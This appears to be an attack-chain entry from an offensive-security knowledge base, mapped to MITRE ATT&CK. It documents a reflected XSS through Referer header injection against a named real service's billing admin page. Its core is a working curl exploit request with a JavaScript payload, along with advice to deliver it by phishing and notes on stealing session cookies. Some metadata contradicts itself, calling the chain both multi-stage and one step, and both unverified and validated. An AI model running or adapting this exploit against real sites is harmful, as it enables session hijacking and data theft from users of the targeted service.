

---
tags:
  - xss
  - reflected-xss
  - header-injection
  - javascript
  - web
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Reflected-XSS-via-Referer-Header-Injection]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:55:20.356Z'
description: >-
  A single-stage attack exploiting a reflected XSS vulnerability through
  injection into the Referer HTTP header on the Semrush billing admin page,
  allowing arbitrary JavaScript execution in the victim's browser context.
id: 2aa48c29-c884-4e14-8fd5-f7ca3d8b41d0
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS via Referer Header Injection in Semrush Billing Admin

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-reflected-xss-referer-injection]]

### Target Environment

- Web application (Semrush billing admin page)
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Ability to send HTTP requests to the target domain

### Initial Access Requirements

- No prior credentials needed for the injection, but victim must access the crafted URL
- Network position: External attacker
- Prior access needed: None, but social engineering to trick victim into clicking a link

## Detailed Attack Procedures

### Step 1: Inject Malicious Payload via Referer Header
procedure: [[procedures/Exploit-Reflected-XSS-via-Referer-Header-Injection]]

**Objective**: Craft and send a GET request to the vulnerable endpoint with a malicious JavaScript payload in the Referer header to trigger reflected XSS execution in the victim's browser.

**Instructions**: Use [[commands/curl-reflected-xss-referer-injection]] to simulate the request:

```bash
curl -X GET "https://www.semrush.com/billing-admin/profile/subscription/?l=de" \
  -H "Host: www.semrush.com" \
  -H "Accept: */*" \
  -H "Accept-Language: en" \
  -H "User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)" \
  -H "Connection: close" \
  -H "Referer: http://www.google.com/search?hl=en&q=c5obc'+alert(1)+'p7yd5"
```

In a real attack, deliver this via a phishing link or malicious site that sets the Referer header when the victim visits the Semrush page.

**Expected Output**: The response echoes the payload without sanitization, executing `alert(1)` in the browser if loaded in a victim's session.

**Success Indicators**:
- Payload reflected in response body
- JavaScript alert or console execution observed
- Potential for further payloads to steal session cookies or data

## Attack Chain Summary

### Key Achievements

1. Successful injection and reflection of XSS payload via Referer header
2. Arbitrary JavaScript execution in authenticated session context
3. Potential for session hijacking or sensitive data exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
